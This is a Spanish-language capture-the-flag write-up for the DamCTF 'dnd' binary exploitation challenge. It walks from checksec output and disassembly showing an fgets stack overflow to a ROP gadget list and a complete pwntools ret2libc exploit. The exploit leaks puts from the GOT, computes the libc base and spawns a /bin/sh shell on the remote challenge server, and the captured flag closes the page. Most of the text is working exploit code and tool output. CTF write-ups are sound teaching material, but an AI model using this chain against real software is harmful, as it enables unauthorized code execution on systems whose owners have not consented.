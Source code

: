 # dnd

`patchelf --set-interpreter ./ld-linux-x86-64.so.2 --replace-needed libc.so.6 ./libc.so.6 dnd && chmod u+x dnd libc.so.6 ld-linux-x86-64.so.2`

```
checksec --file=dnd
[*] '/home/kalcast/Descargas/Pwn/dnd/dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

El binario no tiene PIE ni canary (direcciones fijas y posible buffer overflow)

Si obtenemos puntos negativos "ganamos" el juego y entonces podemos introducir nuestro nombre. Se usa la funcion `fgets` para leer 0x100 bytes en un buffer de 32 asi que claramente hay un buffer overflow
```
var int64_t var_40h @ rbp-0x40
var char * s @ rbp-0x60             <--- se almacena aqui (0x60-0x40=0x20=32 bytes)
...
|           0x004028a5      488b15d458..   mov rdx, qword [obj.stdin]  ; loc.__bss_start
|                                                                      ; [0x408180:8]=0 ; FILE *stream
|           0x004028ac      488d45a0       lea rax, [s]
|           0x004028b0      be00010000     mov esi, 0x100              ; 256 ; int size
|           0x004028b5      4889c7         mov rdi, rax                ; char *s
|           0x004028b8      e813fcffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
```

El offset es de 0x60 + 8(RBP almacenado) = 104 bytes

Primero hacemos un leak de una direccion de libc. Las direcciones de libc se almacenan en la GOT, usamos por ejemplo `got.puts` y se lo pasamos de argumento a `plt.puts`, entonces puts imprimira su propia direccion y asi podremos calcular la direccion base de libc.

Para esto necesitamos un gadget. Un `pop rdi;ret` seria lo ideal pero lo mejor que pude obtener fueron estos:
```
ROPgadget --binar dnd | grep rdi
0x000000000040263d : in eax, 0x6a ; pop rdi ; nop ; pop rbp ; ret
0x0000000000403504 : mov ebp, esp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263c : mov ebp, esp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004041d1 : mov qword ptr [rbp - 8], rdi ; mov qword ptr [rbp - 0x10], rsi ; jmp 0x4041f4
0x0000000000403c44 : mov qword ptr [rbp - 8], rdi ; mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000403506 : mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x0000000000403503 : mov rbp, rsp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263b : mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000404467 : movsd dword ptr [rdi], dword ptr [rsi] ; loopne 0x404469 ; dec dword ptr [rax - 0x75] ; pop rbp ; clc ; leave ; ret
0x00000000004025a6 : or dword ptr [rdi + 0x408158], edi ; jmp rax
0x000000000040200c : pop rdi ; add byte ptr [rax], al ; test rax, rax ; je 0x402016 ; call rax
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
0x000000000040263e : push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x000000000040263a : push rbp ; mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000402e9e : sar byte ptr [rdi + 7], 0xb8 ; add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x402ead
0x00000000004044ad : stosb byte ptr [rdi], al ; add byte ptr [rax], al ; add cl, cl ; ret
```

Con la direccion base de libc conocida retornamos a main, "jugamos" y obtenemos la entrada vulnerable de nuevo, usamos nuestro gadget otra vez pero esta vez el parametro es `/bin/sh` y llamaremos a `system` para invocar una shell interactiva.

Exploit
```python
from pwn import *
#io = process("./dnd")
io = remote("dnd.chals.damctf.xyz",30813)
elf = context.binary = ELF("./dnd")
libc = context.binary = ELF("./libc.so.6")

# Negative points to get input
def play_game():
    io.recvuntil(b"Do you want to [a]ttack or [r]un? ")
    io.sendline(b"a")
    io.recvuntil(b"Points: ")
    points = int(io.recvuntil(b"|").decode()[:-2])
    if points < 0:
        for _ in range(4):
            io.recv()
            io.sendline(b"r")
    else:
        print("Fail!")
        exit(1)


# === ret2libc ===
# 1. leak libc.puts
play_game()
# 0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
pop_rdi_addr = 0x402640
payload = flat (
         cyclic(104),
         p64(pop_rdi_addr),
         elf.got.puts,
         b"A"*8,
         elf.plt.puts,
         elf.sym.main,
        )
io.sendlineafter(b"fierce warrior?",payload)
io.recvline()

# 2. Get libc base address
leak = io.recvline().strip()
puts_libc = u64(leak.ljust(8, b"\x00"))
log.success(f"puts@libc: {hex(puts_libc)}")
libc.address = puts_libc - libc.sym.puts

# 3. Call system("/bin/sh")
play_game()
sh = next(libc.search(b"/bin/sh\x00"))
ret_addr = pop_rdi_addr + 3
payload = flat (
         cyclic(104),
         p64(ret_addr),       # stack alignment
         p64(pop_rdi_addr),
         sh,
         b"A"*8,
         libc.sym['system'],
#         p64(0),              # stack alignment
        )
io.sendlineafter(b"fierce warrior?", payload)
io.interactive()
```

`dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}`
